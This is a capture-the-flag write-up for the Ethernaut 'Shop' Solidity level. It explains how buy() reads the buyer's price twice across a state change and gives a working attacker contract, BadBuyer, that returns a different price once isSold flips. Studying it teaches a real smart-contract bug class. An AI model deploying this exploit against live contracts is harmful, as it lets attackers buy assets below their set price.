 # [21. Shop](https://ethernaut.openzeppelin.com/level/0x3aCd4766f1769940cA010a907b3C8dEbCe0bd4aB)

We had a similar puzzle back in the Elevator level: we need a function to return different things in a single transaction. The most barebones solution would be to check `gasLeft()` and return different results based on it, but here we have a cleaner solution.

```
function buy() public {
  Buyer _buyer = Buyer(msg.sender);

  // during this call, isSold is false
  if (_buyer.price() >= price && !isSold) {
    // the state will change for isSold
    isSold = true;
    // during this call, isSold is true
    price = _buyer.price();
  }
}
```

As commented above, we can query the value of `isSold` and return a different result based on it. Our attacker contract will look like below, assuming we provide the Shop contract and the Buyer interface:

```solidity
contract BadBuyer is Buyer { 
  Shop target;
  constructor(address _target) {
    target = Shop(_target);
  }

  function price() external view override returns (uint) {
    return target.isSold() ? 0 : 100;
  }

  function pwn() public {
    target.buy();
  }
}
```
